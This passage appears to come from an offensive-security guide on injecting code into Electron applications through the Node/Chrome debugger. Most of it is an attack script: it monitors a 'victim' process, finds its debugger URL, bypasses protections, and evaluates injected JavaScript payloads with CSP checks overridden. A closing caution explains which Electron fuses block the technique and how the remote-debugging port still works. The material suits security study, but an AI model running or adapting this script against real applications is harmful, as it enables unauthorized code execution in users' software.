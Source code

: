 ```
        CONTEXT_ID = data["params"]["context"]["id"]
        NAME = data["params"]["context"]["name"]
        UNIQUE_ID = data["params"]["context"]["uniqueId"]
        await send_cmd(ws, "Runtime.compileScript", get_first=False, params={"expression":JS_PAYLOADS,"sourceURL":"","persistScript":False,"executionContextId":1})
        await send_cmd(ws, "Runtime.evaluate", get_first=False, params={"expression":JS_PAYLOADS,"objectGroup":"console","includeCommandLineAPI":True,"silent":False,"returnByValue":False,"generatePreview":True,"userGesture":False,"awaitPromise":False,"replMode":True,"allowUnsafeEvalBlockedByCSP":True,"uniqueContextId":UNIQUE_ID})


async def main():
    await monitor_victim()
    sleep(3)
    await get_debugger_url()
    await bypass_protections()

    sleep(7)

    await js_payloads()
    

async def send_cmd(ws, method, get_first=False, params={}):
    """
    Send a command to the inspector and read until we get a response with matching "id".
    """
    global CONT

    CONT += 1

    # Send the command
    await ws.send(json.dumps({"id": CONT, "method": method, "params": params}))
    sleep(0.4)

    # Read messages until we get our command result
    while True:
        response = await ws.recv()
        data = json.loads(response)

        # Print for debugging
        print(f"[{method} / {CONT}] ->", data)

        if get_first:
            return data

        # If this message is a response to our command (by matching "id"), break
        if data.get("id") == CONT:
            return data

        # Otherwise it's an event or unrelated message; keep reading

if __name__ == "__main__":
    asyncio.run(main())
```
```
> [!CAUTION]
> If the fuse **`EnableNodeCliInspectArguments`** is disabled, the app will **ignore node parameters** (such as `--inspect`) when launched unless the env variable **`ELECTRON_RUN_AS_NODE`** is set, which will be also **ignored** if the fuse **`RunAsNode`** is disabled.
>
> However, you could still use the **electron param `--remote-debugging-port=9229`** but the previous payload won't work to execute other processes.

```